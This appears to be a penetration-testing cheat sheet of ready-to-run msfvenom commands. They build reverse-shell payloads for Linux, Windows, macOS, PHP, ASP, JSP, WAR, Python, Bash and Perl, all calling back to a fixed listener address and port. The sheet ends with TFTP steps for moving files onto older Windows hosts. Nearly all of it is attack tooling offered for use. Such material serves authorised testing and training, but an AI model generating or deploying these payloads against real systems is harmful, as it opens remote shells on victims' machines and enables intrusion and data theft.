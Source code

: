 ## MSFVenom Payloads

**Linux**
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f elf > shell.elf

**Windows**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f exe > shell.exe

**Mac**
>msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f macho > shell.macho 

**PHP**
>msfvenom -p php/meterpreter_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.php

**ASP**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f asp > shell.asp

**JSP**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.jsp

**WAR**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f war > shell.war 

**Python**
>msfvenom -p cmd/unix/reverse_python LHOST=10.11.0.125 LPORT=4444 -f raw > shell.py

**Bash**
>msfvenom -p cmd/unix/reverse_bash LHOST=10.11.0.125 LPORT=4444 -f raw > shell.sh

**Perl**
>msfvenom -p cmd/unix/reverse_perl LHOST=10.11.0.125 LPORT=4444 -f raw > shell.pl 


## File Transfers

**tftp**

Installed on Windows XP up to 2003 by default

>mkdir /tftp

>aftpd --daemon --port 69 /tftp

>cp /file/you/want /tftp

On Windows 
>tftp -i --yourIP-- get file.exe
